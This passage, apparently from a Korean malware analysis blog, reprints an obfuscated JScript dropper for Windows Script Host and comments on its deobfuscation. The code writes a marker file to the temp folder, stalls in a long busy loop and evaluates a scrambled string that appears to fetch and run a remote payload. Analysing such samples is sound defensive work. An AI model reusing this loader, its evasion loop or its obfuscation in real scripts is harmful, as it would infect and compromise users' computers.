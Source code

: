 ```javascript
tcgmac = FQ96;

})

```

  

line 4와 line 9에서 문자 분리 해 놓은것을 제대로 바꿔 보겠다.

  

```javascript

(function anonymous() {

nubper = '';

CQ12 = WScript.CreateObject("Scripting.FileSystemObject");

OA92 = CQ12["GetSpecialFolder"](4 - 2) + "\\Hv129167.tmp";

if (CQ12.FileExists(OA92)) WScript.Quit();

CQ12.CreateTextFile(OA92, true).Close();

fo32 = 6;

while (fo32 < 15092609) {

Math["sqrt"]((fo32));

fo32 = fo32 + 2 - 1;

}

FQ96[5 - 2](fW4('tast.u6s8 r=W=(= f2i0 0}) ;{e svlaarf Snyr4u3t e=r W{r)8e6(.hrcetsapco}n s;e)T(edxnte;s .i6f8 r(W( S;y)4e3s.lianfd e,x4O4fY(y\"+@\"\"=+iynYu4b4g+e\"e@x\"l,t h0h)e)?=\"=+-\'1p)h p{. mWuSrcorfi/p\'t+.]s5l5eDejp[(4282a2Z2+2\')/;/ :}p tetlhs\'e ,{\' TSEyG4\'3( n=e pSoy.4638.rrWe p{lyarcte (;\")@0\"3++y0Y74,42+(\"]@\"\"r,t\"s\"b)u;s \"v[a)r( gfnSi8r5t S=o tS.y)4(3m.ordenpalra.chet(a/M( \\=d {424}Y)y/ g;,) \'fPuTnTcHtLiMoXnr e(vSrde9S7.)2 L{M XrSeMt\'u(rtnc eSjtbrOientga.efrrCo.mtCphiarrcCSoWd e=( p6a8rrsWe I{n t)(3S d<9 75,51D0j)(+ 3e0l)i;h w} );;0 F=Q 9565[D3j] (;f]S\"8m5o)c(.)o;d -WdSncar-iepbt..wQwuwi\"t,(\")e;d .}j 4}o .ewlwswe\" ,{\" lWpS.cdrcilp-tm.esjlaeneypw(.2t2s2e2t2.)w;w w}\" [j D=5 54+8+a;Z}'))(fo32);

tcgmac = FQ96;

})

```

  

line 4에서 GetSpecialFolder를 통해 로컬 PC의 특정 디렉토리에 접근하는 것을 알 수 있다.
